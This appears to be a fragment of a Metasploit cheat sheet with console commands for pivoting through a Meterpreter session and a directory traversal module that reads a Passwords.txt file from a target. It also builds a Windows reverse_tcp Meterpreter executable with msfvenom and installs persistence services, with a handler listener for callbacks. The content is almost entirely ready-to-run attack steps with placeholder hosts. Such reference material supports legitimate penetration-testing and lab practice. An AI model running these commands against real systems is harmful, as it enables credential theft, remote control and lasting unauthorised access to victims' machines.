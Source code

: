 #### Pivoting with Meterpreter

```console
meterpreter > run autoroute -s <NETWORK>
background
msf6 > use auxiliary/scanner/portscan/tcp
```

### Auxiliary Handling

#### Auxiliary Setup

```console
msf6 > use auxiliary/scanner/http/tvt_nvms_traversal
msf6 auxiliary(scanner/http/tvt_nvms_traversal) > set RHOSTS <RHOST>
msf6 auxiliary(scanner/http/tvt_nvms_traversal) > set FILEPATH Users/Nathan/Desktop/Passwords.txt
msf6 auxiliary(scanner/http/tvt_nvms_traversal) > run
```

#### Auxiliary Output Directory

```console
/home/kali/.msf4/loot/20200623090635_default_<RHOST>_nvms.traversal_680948.txt
```

### Persistence

#### Setting up Persistent Access

```console
$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<LHOST> LPORT=<LPORT> -f exe -o shell.exe
```

#### Copy exploit to target machine

```console
msf6 > use exploit/windows/local/persistence
msf6 > set session 1
msf6 > use windows/meterpreter/reverse_tcp
```

#### Persistence through persistence_service

```console
msf6 > use exploit/windows/local/persistence_service
msf6 > set session 2
msf6 > set lport 5678
msf6 > exploit
```

```console
msf6 > use exploit/multi/handler
msf6 > set payload windows/meterpreter/reverse_tcp
msf6 > set lhost <LHOST>
msf6 > set lport 5678
msf6 > exploit
```
